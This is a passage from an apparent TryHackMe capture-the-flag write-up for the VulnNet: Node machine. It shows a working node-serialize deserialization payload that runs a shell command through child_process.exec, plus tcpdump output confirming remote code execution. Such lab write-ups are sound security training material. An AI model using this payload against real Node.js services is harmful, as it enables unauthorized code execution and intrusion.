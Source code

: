 Research about *nodejs exploit* and *deserialization payload* → I found this one

```
{"username":"_$$ND_FUNC$$_require('child_process').exec('ping -c2 10.8.97.213', function(error, stdout, stderr) { console.log(stdout) })","isGuest":true,"encoding": "utf-8"}
```

Paste it to the Request session

![Untitled](VulnNet_Node_images/Untitled%207.png)

Start the listener using `tcpdump` on the local machine and `send` the request

```
┌──(kali㉿kali)-[~/TryHackMe/VulnNet/Node]
└─$ sudo tcpdump -i tun1 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun1, link-type RAW (Raw IP), snapshot length 262144 bytes
04:30:25.734432 IP 10.10.116.34 > 10.8.97.213: ICMP echo request, id 1039, seq 1, length 64
04:30:25.734447 IP 10.8.97.213 > 10.10.116.34: ICMP echo reply, id 1039, seq 1, length 64
04:30:26.735415 IP 10.10.116.34 > 10.8.97.213: ICMP echo request, id 1039, seq 2, length 64
04:30:26.735475 IP 10.8.97.213 > 10.10.116.34: ICMP echo reply, id 1039, seq 2, length 64
```
